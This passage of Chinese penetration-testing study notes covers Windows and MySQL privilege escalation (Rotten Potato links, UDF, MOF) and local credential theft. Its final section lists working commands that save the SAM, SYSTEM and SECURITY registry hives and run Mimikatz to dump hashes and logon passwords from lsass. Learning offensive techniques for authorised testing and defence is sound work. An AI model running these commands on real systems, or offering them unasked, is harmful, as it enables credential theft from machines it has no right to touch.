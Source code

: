 #### 参考文章

[先知-土豆系列](https://xz.aliyun.com/t/7776)
[烂土豆相关](http://hackergu.com/powerup-stealtoken-rottenpotato/)
[烂土豆文章](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/)
[烂土豆文章2](https://www.anquanke.com/post/id/92908)
[安全师](https://www.secshi.com/40957.html)

### Mysql提权

#### UDF提权

UDF(User-Defined Function)用户自定义函数，是Mysql的一个扩展接口，用户可以通过UDF实现Mysql中难以实现的功能。在sqlmap直连mysql使用os-shell指令时，默认也是以UDF的方式获取权限

#### Mof提权

> 这个好像更早了，大致原理，我理解为**nullevt.mof**每间隔一段时间就会被执行的特性，通过修改这个mof达到获取权限的目的，具体的就不再做搬运仔了

[这篇文章](https://www.freebuf.com/articles/web/243136.html)总结了mysql的利用，关于mysql的文章也很多，我就不做朴实的搬运工了。~~PS.我觉得这个是直接拿别的权限呀...~~

## 0x05 密码获取

> 这里腾讯蓝军的文章占用了很大的篇幅，因为包含了许多基础知识（如lmhash，ntlmhash生成等等），因为在之前整理过的入门篇章已经有了，所以会有一些不一样。还是记录自己不会的，边看边学

### 本地凭据获取

> 这里其实已经在之前的整理过了，重新整理(搬运)一下，看过或者熟悉的可以直接跳过了，这里纯搬指令
>
> 20200714：今天看到了Ateam的文章...没想到和卡巴对抗的情况呀...不过目前太菜还看不懂，先mark一下[文章](https://blog.ateam.qianxin.com/post/zhe-shi-yi-pian-bu-yi-yang-de-zhen-shi-shen-tou-ce-shi-an-li-fen-xi-wen-zhang/#44-%E5%8D%A1%E5%B7%B4%E6%96%AF%E5%9F%BA%E7%9A%84%E5%AF%B9%E6%8A%97)

#### reg转储

```shell
reg save hklm\sam sam.hive
reg save hklm\system system.hive
reg save hklm\security security.hive
```

#### Mimikatz

```shell
privilege::debug
token::elevate
lsadump::sam

从lsass.exe进程获取

privilege::debug
sekurlsa::logonpasswords
```
